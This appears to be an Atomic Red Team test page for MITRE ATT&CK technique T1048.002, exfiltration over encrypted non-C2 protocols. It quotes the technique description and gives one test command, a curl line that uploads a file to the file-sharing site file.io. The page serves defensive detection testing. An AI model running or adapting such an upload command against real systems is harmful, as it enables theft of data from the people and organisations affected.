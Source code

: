 # T1048.002 - Exfiltration Over Asymmetric Encrypted Non-C2 Protocol
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1048/002)
<blockquote>Adversaries may steal data by exfiltrating it over an asymmetrically encrypted network protocol other than that of the existing command and control channel. The data may also be sent to an alternate network location from the main command and control server. 

Asymmetric encryption algorithms are those that use different keys on each end of the channel. Also known as public-key cryptography, this requires pairs of cryptographic keys that can encrypt/decrypt data from the corresponding key. Each end of the communication channels requires a private key (only in the procession of that entity) and the public key of the other entity. The public keys of each entity are exchanged before encrypted communications begin. 

Network protocols that use asymmetric encryption (such as HTTPS/TLS/SSL) often utilize symmetric encryption once keys are exchanged. Adversaries may opt to use these encrypted mechanisms that are baked into a protocol. </blockquote>

## Atomic Tests

- [Atomic Test #1 - Exfiltrate data HTTPS using curl](#atomic-test-1---exfiltrate-data-https-using-curl)


<br/>

## Atomic Test #1 - Exfiltrate data HTTPS using curl
Exfiltrate data HTTPS using curl to file share site file.io

**Supported Platforms:** Windows, macOS, Linux


**auto_generated_guid:** 4a4f31e2-46ea-4c26-ad89-f09ad1d5fe01





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| input_file | Test file to upload | Path | PathToAtomicsFolder/T1048.002/files/artifact|


#### Attack Commands: Run with `bash`! 


```bash
curl -F 'file=@#{input_file}' -F 'maxDownloads=1' -F 'autoDelete=true' https://file.io/
```






<br/>
